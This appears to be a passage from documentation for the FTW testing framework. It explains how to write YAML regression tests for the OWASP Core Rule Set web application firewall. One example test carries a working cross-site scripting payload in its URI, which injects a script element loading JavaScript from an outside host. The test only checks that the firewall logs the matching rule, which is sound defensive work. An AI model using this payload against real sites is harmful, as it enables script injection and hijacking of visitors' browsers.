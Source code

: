 At this point the general approach should be pretty clear. We can easily combine these two tests into one file, which is how we end up structuring our regression tests for OWASP-CRS. Below is an example of a combined test file. There is no limit on the amount of tests that can be placed here.

```yaml
---
meta:
    author: csanders-git
    enabled: true
    name: example test
    description: A fairly minimal test file
  tests:
    -
      test_title: example-test1
      stages:
        -
        stage:
            input:
              dest_addr: localhost
            output:
              status: 200
    -
      test_title: example-test2
      stages:
        -
        stage:
            input:
              protocol: http
              dest_addr: localhost
              port: 80
              method: GET
              uri: /
              version: HTTP/1.1
              headers:
                    Host: localhost
            output:
              status: 200
```

We are not forced to use only only check status codes, FTW supports a modular design that allows for checking various WAFs. The OWASP-CRS regression tests currently only feature support for reading ModSecurity 2.x logs (the location of which is defined in settings.ini). However we are able to supply a regex that is used to check the result of a request (using `response_contains`) or if a value is either present or not present in the WAF logs (using `log_contains` or `no_log_contains` respectively). An example test to see if an XSS rule triggered is below:

```yaml
-
  test_title: 941100-1
  desc: Test as described in http://www.client9.com/article/five-interesting-injection-attacks/
  stages:
  -
    stage:
      input:
        dest_addr: 127.0.0.1
        method: GET
        port: 80
        uri: '/demo/xss/xml/vuln.xml.php?input=setTimeout("top.frame2.location=\"javascript:(function () {var x = document.createElement(\\\"script\\\");x.src = \\\"//sdl.me/popup.js?//\\\";document.childNodes\[0\].appendChild(x);}());\"",1000)&//'
        headers:
            User-Agent: ModSecurity CRS 3 Tests
            Host: localhost
      output:
        log_contains: id "941100" 
```